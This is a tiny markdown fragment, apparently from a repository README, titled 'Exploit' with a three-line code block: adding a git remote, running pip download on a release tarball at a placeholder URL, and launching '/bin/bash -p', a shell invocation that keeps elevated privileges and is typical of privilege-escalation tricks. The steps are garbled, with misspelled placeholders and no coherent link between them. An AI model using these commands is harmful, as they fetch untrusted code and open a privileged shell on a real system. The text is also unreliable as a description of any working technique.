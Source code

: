 # Exploit
Create a new release
```
git remote add origin GIT_URL
pip download GUT_URL/archive/RELASE_NAME.tar.gz
/bin/bash -p
```

